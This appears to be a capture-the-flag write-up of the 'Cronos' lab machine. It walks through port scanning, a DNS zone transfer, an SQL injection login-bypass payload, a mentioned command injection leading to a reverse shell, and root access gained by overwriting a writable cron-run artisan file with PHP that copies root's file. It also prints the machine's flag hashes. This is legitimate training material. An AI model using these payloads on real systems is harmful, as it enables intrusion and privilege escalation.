

# Cronos

## Overview

This was a fairly easy box. An SQL injection bug leads to command injection. And from that, I owned the root by taking advantage of insecurely configured cronjob.


**Name -** Cronos

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ nmap 10.129.74.154
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 00:22 +06
Nmap scan report for 10.129.74.154
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

Service Scan

```bash
╰─ nmap 10.129.74.154 -sC -sV -p22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 00:25 +06
Nmap scan report for 10.129.74.154
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.80 seconds
```

### DNS Enumeration

As the DNS port is open, I ran some check on DNS port and found the following subdomain

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ dig axfr cronos.htb @cronos.htb

; <<>> DiG 9.18.12-1-Debian <<>> axfr cronos.htb @cronos.htb
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 220 msec
;; SERVER: 10.129.74.154#53(cronos.htb) (TCP)
;; WHEN: Fri Jun 02 00:28:56 +06 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### **HTTP Enumeration**

So, We have total thee domains/subdomains to test.

1. cronos.htb
2. admin.cronos.htb
3. ns1.cronos.htb

The first one and last one doesn’t contain anything interesting. But the 2nd one has a login panel



This page contains simple sql injection. the following simple payload on the username field bypasses the login

```
username = admin' or 1=1-- -
password = admin' or 1=1-- -
```


## Initial Foothold

This webpage contains basic command injection.


From this I managed to get a reverse shell


## Getting User.txt

Getting user flag was simple from here


User Flag - da8deb6bcc461bb19f92bf1b0521e659

## Getting root.txt

I found something in the cronjob.


So, It is running artisan file from /var/www/laravel directory in every minute. and that artisan file is writeable.


So, I changed it to the following

```bash
www-data@cronos:/var/www/laravel$ echo "<?php system('cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt'); ?>" > artisan
<'cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt'); ?>" > artisan
```

And after waiting a minute, I found the root flag


Root Flag - a78a4247a63ee7847b82690b9b6d8cf8

## Flags

**user.txt -** da8deb6bcc461bb19f92bf1b0521e659

**root.txt -** a78a4247a63ee7847b82690b9b6d8cf8
